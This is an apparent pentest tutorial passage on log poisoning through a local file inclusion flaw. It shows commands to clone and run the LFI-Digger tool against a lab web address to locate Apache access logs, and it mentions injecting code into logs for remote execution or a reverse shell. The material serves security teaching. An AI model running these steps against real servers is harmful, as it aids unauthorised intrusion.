

4.1 Log poisoning
A server log is a text file that contains all the activities that have been performed while communicating with the web server like files that were accessed, status codes, user-agent, location, IP, etc.
Log poisoning or Log injection is a technique that allows the attacker to tamper with the log file contents like inserting the malicious code to the server logs to execute commands remotely or to get a reverse shell. It will work only when the application is already vulnerable to LFI.
1. Download LFI-Digger to search logs.
$ git clone https://github.com/Claor/LFI-Digger.git
2. Modify the “lfidigger.py” file.
Change line 5 to “from bs4 import BeautifulSoup”
3. Run the following command.
$ python2 lfidigger.py "http://192.168.12.70/includes.php?display_page=%LFI%" ./dics/linux_apache_logs.txt false
Output:

Apache's log is "/var/log/apache2/access.log"